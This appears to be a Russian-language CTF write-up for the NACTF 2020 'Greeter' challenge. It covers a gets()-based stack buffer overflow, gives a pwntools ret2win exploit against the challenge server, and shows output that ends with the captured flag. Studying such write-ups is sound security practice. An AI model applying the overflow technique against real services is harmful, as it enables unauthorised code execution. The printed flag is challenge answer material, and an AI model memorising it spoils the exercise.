# Greeter writeup

Вначале изучим предоставленный в таске исходный код исполняемого файла:

```c
#include <stdio.h>
#include <stdlib.h>

void win() {
    puts("congrats! here's your flag:");
    char flagbuf[64];
    FILE* f = fopen("./flag.txt", "r");
    if (f == NULL) {
       puts("flag file not found!");
       exit(1);
    }
    fgets(flagbuf, 64, f);
    fputs(flagbuf, stdout);
    fclose(f);
}

int main() {
    /* disable stream buffering */
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    char name[64];

    puts("What's your name?");
    gets(name);
    printf("Why hello there %s!\n", name);

    return 0;
}
```

Нашей целью будет являться вызов функции `win` на удалённом сервере, в которой происходит чтение файла с флагом. 

Как мы видим, в коде используется уязвимая функция `gets`, считывающая данные до символа переноса строки и, следовательно, позволяющая нам переполнить выделенный буфер.

Эксплуатацию уязвимости переполнения буфера на стеке будем производить в два этапа:
- сначала переполняем буфер до адреса возврата (отправляем в бинарный файл `72` байта мусора, так как под буфер `name` выделено `64` байта, а между буфером и указателем возврата на стеке находится только сохранённый регистр `RBP`);
- затем перезаписываем указатель вовзрата на адрес функции `win`, тем самым вызывая её выполнение.

Воспользуемся модулем `pwntools` для написания эксплойта:

```python3
#/usr/bin/env python3
from pwn import *

elf = ELF('./greeter')

p = remote('challenges.ctfd.io', 30249)

payload = b'A' * 72
payload += p64(elf.symbols['win']) # 0x401220

p.sendlineafter('\n', payload)
p.interactive()
```

Запускаем эксплойт:

```
burgos1337@LAPTOP-4VD7KB18:/mnt/c/Users/Lenovo/Desktop/NACTF 2020/greeter$ python3 greeter_exploit.py
[*] '/mnt/c/Users/Lenovo/Desktop/NACTF 2020/greeter/greeter'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.ctfd.io on port 30249: Done
[*] Switching to interactive mode
Why hello there AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA \x12!
congrats! here's your flag:
nactf{n4v4r_us3_g3ts_5vlrDKJufaUOd8Ur}
[*] Got EOF while reading in interactive
$
burgos1337@LAPTOP-4VD7KB18:/mnt/c/Users/Lenovo/Desktop/NACTF 2020/greeter
```
